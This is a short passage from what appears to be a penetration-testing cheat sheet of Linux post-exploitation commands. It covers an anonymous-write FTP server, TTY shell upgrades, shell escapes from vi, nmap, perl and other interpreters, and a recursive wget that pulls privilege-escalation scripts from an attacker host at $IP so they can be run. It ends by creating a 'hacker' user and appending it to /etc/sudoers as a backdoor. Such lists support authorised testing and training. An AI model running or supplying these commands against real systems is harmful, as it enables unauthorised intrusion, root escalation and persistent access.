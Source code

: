 ```bash
# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w
```

## Linux
* Useful commands
```bash
# Spawning shell
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
V
Ctrl+Z
stty raw -echo
fg
reset
Ctrl+Z
stty size
stty -rows 48 -columns 120
fg

echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within vi)
:!bash
:set shell=/bin/bash:shell
(From within nmap)
!sh

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /opt/privesc-scripts; python -m SimpleHTTPServer 80

# Download all files
wget http://$IP:8080/ -r; mv $IP exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard

# Writable directories
/tmp
/var/tmp

# Add user to sudoers
useradd hacker
passwd hacker
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers

```
	